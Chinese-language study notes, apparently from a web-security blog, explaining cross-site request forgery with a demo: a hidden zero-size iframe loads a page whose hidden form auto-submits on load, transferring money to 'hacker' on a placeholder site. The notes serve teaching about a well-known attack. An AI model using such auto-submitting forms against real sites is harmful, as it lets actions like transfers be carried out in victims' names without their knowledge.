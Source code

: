 ```yaml
---
title: 2-2-2_csrf
date: 2018-05-28 18:56:23
categories: WebSafe
tags:
    - CSRF
---
```


## CSRF

### 概念 
全称 : Cross Site Request forgrey 
中文 : 跨站请求伪造

用途 : 执行恶意操作 （“被转账”，发垃圾评论等），制造蠕虫 ...。

利用用户的已登陆身份，用用户的名义在用户不知情的情况下执行非法操作。

### 原理

默认流程:
```
Request URI: xxx/demo/csrf/transfer.php
cookie:xxxxxxxxxxxxxxxx1
Form:  username:json   amout:10
```
恶意代码

```html
<body>
    <iframe src="csrf-attack.php?t-0.3132353463" width=0 height=0> </iframe>
</body>

```

```php
# csrf-attack.php
<body onload="submitForm();">
    <form id="tip" action="xxx/demo/csrf/transfer.php"  method="post">
    <input type="hidden" name="toUser" value="hacker">
    <input type="hidden" name="amount" value="10">
    </form>
</body>

<script>
    function submitForm(){
        document.getElementById("tip").submit();
    }
</script>

```


